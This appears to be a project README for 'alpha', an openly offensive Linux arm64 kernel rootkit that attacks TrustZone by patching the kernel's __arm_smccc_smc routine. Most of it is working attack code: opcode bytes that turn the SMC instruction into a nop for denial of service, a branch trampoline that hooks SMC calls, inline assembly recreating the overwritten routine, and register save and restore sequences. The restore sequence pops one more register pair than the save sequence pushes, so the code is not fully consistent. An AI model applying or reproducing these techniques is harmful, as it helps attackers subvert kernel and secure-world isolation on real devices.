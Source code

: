 # alpha
alpha is a simple kernel rootkit (Linux arm64) to attack the TrustZone. He erases the smc_handle function of the kernel to hook SMC Call. It has been tested on a Linux kernel 4.19 with OP-TEE 3.5.0 but should work with any other TrustZone implementation.

### __arm_smccc_smc (arch/arm64/kernel/smccc-call.S)   
   
```   
   smc   #0
   ldr   x4, [sp]
   stp   x0, x1, [x4, #ARM_SMCCC_RES_X0_OFFS]
   stp   x2, x3, [x4, #ARM_SMCCC_RES_X2_OFFS]
   ldr   x4, [sp, #8]
   cbz   x4, 1f /* no quirk structure */
   ldr   x9, [x4, #ARM_SMCCC_QUIRK_ID_OFFS]
   cmp   x9, #ARM_SMCCC_QUIRK_QCOM_A6
   b.ne  1f
   str   x6, [x4, ARM_SMCCC_QUIRK_STATE_OFFS]
   ret
```   
   
### DoS (Denial of Service)   
   
It's the easiest way to avoid SMC call. Replace the first instruction of the function:   
```   
03 00 00 d4     smc   #0x0   
```   

With the following instruction:   
```   
d5 03 20 1f     nop      
```   

### Hook SMC Call

The purpose of this attack is to insert our routine function in __arm_smccc_smc to filter the SMC call. First step is to jump to our hook function:    
```
   ldr   x8, .+8
   br    x8
   .dword [hook_address]
```

Next, the hook function have to manage the SMC call. We have to re-write the routine that has been erased and put it at the end of our hook function:    
```
   __asm__( "smc #0;"
            "ldr x4, [sp];"
            "stp x0, x1, [x4];"
            "stp x2, x3, [x4,#16];"
            "ldr x4, [sp,#8];"
            "cbz x4, .+20;"
            "ldr x9, [x4];"
            "cmp x9, #0x1;"
            "b.ne .+8;"
            "str x6, [x4,#8];"
	    "ret;");
```

In order to have the ability to do anything inside the hook function, we have to save registers. We add a pre-routine and a post-routine in the hook function. The pre-routine is as follow:
```
   stp   x0, x1, [sp, #-16]!
   stp   x2, x3, [sp, #-16]!
   stp   x4, x5, [sp, #-16]!
   stp   x6, x7, [sp, #-16]!
   stp   x18, x19, [sp, #-16]!
   stp   x20, x21, [sp, #-16]!
   stp   x22, x23, [sp, #-16]!
   stp   x24, x25, [sp, #-16]!
   stp   x26, x27, [sp, #-16]!
   stp   x28, x29, [sp, #-16]!
   str   x30, [sp, #-8]!
```   

And the post-routine:
```
   ldr   x30, [sp], #8
   ldp   x28, x29, [sp], #16
   ldp   x26, x27, [sp], #16
   ldp   x24, x25, [sp], #16
   ldp   x22, x23, [sp], #16
   ldp   x20, x21, [sp], #16
   ldp   x18, x19, [sp], #16
   ldp   x6, x7, [sp], #16
   ldp   x4, x5, [sp], #16
   ldp   x2, x3, [sp], #16
   ldp   x0, x1, [sp], #16
   ldp   x29, x30, [sp], #16
```

### References   

http://infocenter.arm.com/help/topic/com.arm.doc.den0028b/ARM_DEN0028B_SMC_Calling_Convention.pdf   
https://github.com/torvalds/linux/blob/master/include/linux/arm-smccc.h   
https://github.com/torvalds/linux/blob/master/arch/arm64/kernel/smccc-call.S   
